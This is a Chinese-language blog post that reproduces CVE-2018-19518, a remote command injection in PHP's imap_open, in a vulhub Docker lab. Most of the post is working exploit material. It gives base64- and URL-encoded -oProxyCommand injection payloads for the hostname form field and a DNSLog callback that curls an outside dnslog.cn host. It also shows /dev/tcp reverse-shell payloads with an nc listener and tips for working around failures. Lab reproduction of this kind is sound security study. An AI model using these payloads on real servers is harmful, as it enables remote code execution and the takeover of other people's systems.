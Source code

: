 ```yaml
---
title: 漏洞复现-PHP-imap远程命令执行漏洞
description: CVE2018-19518
author: #有默认值
date: 2024-08-30 19:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd vulhub/php/CVE-2018-19518
docker-compose up -d 
```

## 漏洞原理
https://github.com/vulhub/vulhub/tree/master/php/CVE-2018-19518

php imap扩展用于在PHP中执行邮件收发操作。其imap_open函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置-oProxyCommand=来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

https://www.cnblogs.com/Junglezt/p/18119142

## PoC（Proof of Concept） 验证漏洞存在的代码
版本验证：PHP 8.1.0-dev

## Exp（Exploit）进行实际的攻击利用
提交表单请求中对hostname字段注入RCE
payload ：

```http
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=admin&password=123
```
+ url编码：%09 tab %2b + %3d =
+ 先url解码为ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=
+ 再base64解码：ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=是 echo '1234567890'>/tmp/test0001
+ x为任意

构造payload:原命令->base64->特殊字符url编码
![](../assets/img/2024-08-30/iShot_2024-08-30_18.04.37.png)


###  进入容器查看是否执行成功
```shell
docker exec -it [容器id] /bin/bash
cd /tmp
```

### 改进：DNSLog 回显判断是否可以执行rce
```shell
curl 8blu94.dnslog.cn
# base64encode
Y3VybCB4NmRyZmwuZG5zbG9nLmNuCg==
# 将base64编码内容替换，将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09Y3VybCB4NmRyZmwuZG5zbG9nLmNuCg%3d%3d|base64%09-d|sh}&username=admin&password=222
```
![](../assets/img/2024-08-30/iShot_2024-09-09_14.42.34.png)


### 建立反弹shell(监控机为主机，靶机为docker)：
#### 文件式反弹shell：
`docker inspect 容器ID` 获取容器的所有信息，其中就含有**容器的IP**和**默认网关的IP**，一般情况下默认网关的IP就是我们宿主机的IP
![](../assets/img/2024-08-30/iShot_2024-08-30_20.12.26.png)

写入webshell文件：
```shell
# echo 命令：将字符串 输出 ，'>' 将 echo 命令的输出重定向到文件/tmp/webshell
echo '/bin/bash -i >& /dev/tcp/172.23.0.1/8999 0>&1'>/tmp/webshell
# base64encode
ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg==
# 将base64编码内容替换
x+-oProxyCommand%3decho%09[base64编码内容]|base64%09-d|sh}&username=admin&password=222
x+-oProxyCommand%3decho%09ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg==|base64%09-d|sh}
# 将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09ZWNobyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxJz4vdG1wL3dlYnNoZWxsCg%3d%3d|base64%09-d|sh}
```
首先本地监听`nc -lvp 8999`
再使用/bin/bash触发/tmp/webshell反弹shell脚本
```shell
#payload
/bin/bash /tmp/webshell
#base64
L2Jpbi9iYXNoIC90bXAvd2Vic2hlbGwK
#
hostname=x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvd2Vic2hlbGwK|base64%09-d|sh}&username=admin&password=222
```
成功截图：
![](../assets/img/2024-08-30/iShot_2024-09-09_15.39.59.png)

#### 命令注入式反弹shell：
```shell
# payload
/bin/bash -i >& /dev/tcp/172.23.0.1/8999 0>&1;curl 8blu94.dnslog.cn
# base64encode
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCg==
# 将base64编码内容替换
x+-oProxyCommand%3decho%09[base64编码内容]|base64%09-d|sh}&username=admin&password=222
x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCg==|base64%09-d|sh}
# 将base64编码内容再次进行url编码
x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4yMy4wLjEvODk5OSAwPiYxCgo%3d|base64%09-d|sh}
```
失败（原因不明）

## 复现总结

###  payload构造 %2b 先url解码为+ 再base64 解码
构造 |base64-d|sh}执行语句 先base64 加密 再url编码，注意换行
[](../assets/img/2024-08-30/iShot_2024-08-30_18.04.37.png)


### payload构造注意
+ x 不能是127.0.0.1，不能是ip，否则会长时间请求ip，并无法执行rce
+ 构造的命令加回车再base64,不加回车不会立马返回response但仍会执行。
+ username=admin,其他不行
+ echo ' ' > a.sh 使用单引号保留特殊字符，双引号内某些字符可能会被解释或替换

### 避免直接命令反弹shell失败
通过写入webshell文件再执行的方式，提高通过RCE直接执行反弹shell命令的成功率。
失败可能原因：命令长度限制、字符转义问题、写入webshell文件后再执行可能会以不同的权限运行，从而成功执行。